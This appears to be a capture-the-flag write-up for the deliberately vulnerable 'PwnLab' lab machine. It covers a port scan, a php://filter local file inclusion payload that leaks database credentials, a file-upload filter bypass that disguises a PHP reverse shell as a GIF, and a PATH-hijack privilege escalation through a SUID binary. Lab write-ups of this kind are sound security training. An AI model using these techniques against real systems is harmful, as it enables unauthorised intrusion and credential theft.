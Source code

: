 ```yaml
---
title: PwnLab
categories: [Proving Grounds Play]
tags: [LFI, PrivEsc, mysql]
image:
  path: /Vulnhub-Files/img/PwnLab/Untitled%207.png
  alt:  PwnLab Machine 🖥️
---
```



Let’s Find the Victim Machines IP Address ⤵️

![Untitled](/Vulnhub-Files/img/PwnLab/Untitled.png)

```bash
IP : 10.0.2.33
```
{: .nolineno}

## Port Scan Results ⤵️

![Untitled](/Vulnhub-Files/img/PwnLab/Untitled%201.png)

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/pwnlab]
└─$ sudo nmap -sC -sV -p- -T4 -oN Nmap_results.txt 10.0.2.33
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-22 16:06 IST
Nmap scan report for 10.0.2.33
Host is up (0.0016s latency).
Not shown: 65531 closed tcp ports (reset)
PORT      STATE SERVICE VERSION
80/tcp    open  http    Apache httpd 2.4.10 ((Debian))
|_http-title: PwnLab Intranet Image Hosting
|_http-server-header: Apache/2.4.10 (Debian)
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          34509/tcp6  status
|   100024  1          45792/udp   status
|   100024  1          51759/udp6  status
|_  100024  1          51803/tcp   status
3306/tcp  open  mysql   MySQL 5.5.47-0+deb8u1
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.47-0+deb8u1
|   Thread ID: 41
|   Capabilities flags: 63487
|   Some Capabilities: LongPassword, Support41Auth, InteractiveClient, ConnectWithDatabase, IgnoreSigpipes, LongColumnFlag, FoundRows, Speaks41ProtocolNew, Speaks41ProtocolOld, IgnoreSpaceBeforeParenthesis, SupportsTransactions, SupportsCompression, SupportsLoadDataLocal, DontAllowDatabaseTableColumn, ODBCClient, SupportsMultipleResults, SupportsMultipleStatments, SupportsAuthPlugins
|   Status: Autocommit
|   Salt: 0%h[rJYb_9=egVY:X*gH
|_  Auth Plugin Name: mysql_native_password
51803/tcp open  status  1 (RPC #100024)
MAC Address: 08:00:27:EF:BA:B4 (Oracle VirtualBox virtual NIC)
```
{: .nolineno}

## Web Enumeration ⬇️

![Untitled](/Vulnhub-Files/img/PwnLab/Untitled%202.png)

Now lets try to access config.php file as I found while directory listing  For that I need to use the `php://filter` command >>

```bash
http://10.0.2.33/?page=php://filter/convert.base64-encode/resource=config
```
{: .nolineno}

![Untitled](/Vulnhub-Files/img/PwnLab/Untitled%203.png)

I got this ➡️

![Untitled](/Vulnhub-Files/img/PwnLab/Untitled%204.png)

```php
<?php
$server	  = "localhost";
$username = "root";
$password = "H4u%QJ_H99";
$database = "Users";
?>
```
{: .nolineno}

Now I got the sql access >>

![Untitled](/Vulnhub-Files/img/PwnLab/Untitled%205.png)

![Untitled](/Vulnhub-Files/img/PwnLab/Untitled%206.png)

```sql
+------+--------------------------------+
| user |      pass > base64 decoded     |
+------+--------------------------------+
| kent | Sld6WHVCSkpOeQ== > JWzXuBJJNy  |
| mike | U0lmZHNURW42SQ== > SIfdsTEn6I  |
| kane | aVN2NVltMkdSbw== > iSv5Ym2GRo  |
+------+--------------------------------+
```
{: .nolineno}

So with kent credentials I got logged in —>

But I can also se the index.php file like config so let’s see >>

![Untitled](/Vulnhub-Files/img/PwnLab/Untitled%207.png)

![Untitled](/Vulnhub-Files/img/PwnLab/Untitled%208.png)

Now I see so I can use lang as a input for cookies so let’s try something —> 

![Untitled](/Vulnhub-Files/img/PwnLab/Untitled%209.png)

Now lets try to upload our reverse shell payload , but I was unable upload the .php file so I made some changed while uploading the payload ⤵️

![Untitled](/Vulnhub-Files/img/PwnLab/Untitled%2010.png)

1. I changed the file name and added `.gif`
2. I changed the `Content-Type:` from `application/x-php` to `image/gif`.
3. Then I added the magic number of gif file as `GIF89a;` to make it look like gif file .
4. In response I got the upload location .

Now lets access the file as we accessed `/etc/passwd` file >>

![Untitled](/Vulnhub-Files/img/PwnLab/Untitled%2011.png)

![Untitled](/Vulnhub-Files/img/PwnLab/Untitled%2012.png)

I got the Local Privilege shell So lets exploit it further now ➡️

So while enumerating I got this >>

![Untitled](/Vulnhub-Files/img/PwnLab/Untitled%2013.png)

So in this case `msgmike` executes cat command to read the following file and it also contains the SUID permissions for mike to provide a executable shell .

therefore I need to make `cat` as `bin/bash` and it will be executed by `msgmike` .

![Untitled](/Vulnhub-Files/img/PwnLab/Untitled%2014.png)

![Untitled](/Vulnhub-Files/img/PwnLab/Untitled%2015.png)

Lets see what it does >>

![Untitled](/Vulnhub-Files/img/PwnLab/Untitled%2016.png)

Now the simple thing to do >>

![Untitled](/Vulnhub-Files/img/PwnLab/Untitled%2017.png)

can’t use cat because of the $PATH that’s why I used more here ⬇️

![Untitled](/Vulnhub-Files/img/PwnLab/Untitled%2018.png)

> If you have any questions or suggestions, please leave a comment below.
Thank You ! 
{: .prompt-tip }